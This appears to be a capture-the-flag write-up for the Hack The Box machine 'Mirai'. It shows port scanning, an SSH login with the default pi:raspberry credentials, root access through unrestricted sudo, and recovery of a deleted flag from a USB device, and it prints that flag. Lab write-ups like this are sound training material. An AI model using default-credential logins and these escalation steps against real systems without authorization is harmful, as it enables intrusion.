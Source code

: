 ```yaml
---
tags:
  - hack
  - linux
---
```


# HTB: [Mirai](https://app.hackthebox.com/machines/Mirai)

## Enumeration

```console
$ nmap -n -sCV -T4 -p1-65535 -v $t
[...]
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open     domain      dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open     http        lighttpd 1.4.35
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
388/tcp   filtered unidata-ldm
1728/tcp  open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
20850/tcp filtered unknown
25173/tcp filtered unknown
32400/tcp open     http        Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
37158/tcp filtered unknown
62763/tcp filtered unknown
62807/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

Looks like [Pi-hole](https://en.wikipedia.org/wiki/Pi-hole) on port 80, judging by the HTTP header:

```console
$ curl -Lsi http://$t
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Content-Length: 0
Date: Tue, 03 Oct 2023 22:42:24 GMT
Server: lighttpd/1.4.35
```

## Exploitation

I can infer that Pi-hole is running on a Raspberry Pi device, probably [Raspbian](https://www.raspbian.org/).

I try the default credentials of `pi:raspberry`:

```console
$ ssh pi@$t
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ cat /home/pi/Desktop/user.txt
ff8377[...]
```

## Privilege Escalation

`sudo` is wide open for the user `pi`:

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo -i
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# 
```

The usual `root.txt` file drops a big hint:

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

And the USB filesystem contains another hint:

```console
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Running `strings` on the USB device file reveals the `root` flag:

```console
root@raspberrypi:/tmp# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
